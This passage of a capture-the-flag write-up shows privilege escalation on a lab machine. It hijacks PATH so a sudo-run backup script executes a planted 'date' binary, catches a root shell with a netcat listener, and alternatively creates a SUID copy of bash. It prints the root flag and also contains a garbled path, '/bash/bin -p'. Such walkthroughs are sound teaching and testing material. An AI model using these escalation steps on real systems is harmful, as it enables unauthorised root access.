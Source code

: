 > chmod +x date

- Finally add PATH and run

> export PATH=$(pwd):$PATH

> sudo /opt/scripts/[access_backup.sh](./ssh/access_backup.sh)

### Attacker connect

> nc -lvnp *port*

> whoami&&id

```
root
uid=0(root) gid=0(root) groups=0(root)
```

> cat /root/root.txt

```
root.txt
377a03e045513ee63458f3ca5ef64657
```

### Trivial Memo

- If use `echo "/bash/bin -p" > gzip/date` to run sudo, it will no response at command input

*Another approach (not recommand becuz no interactive, and it's temporary root privilege - euid)*

> vim gzip/date

```
cp /bin/bash $(pwd)/pwn
chmod u+s pwn
```
> ./pwn -p

```
pwn-4.4#
```

> whoami&&id

```
root
uid=1000(m4lwhere) gid=1000(m4lwhere) euid=0(root) groups=1000(m4lwhere)
```
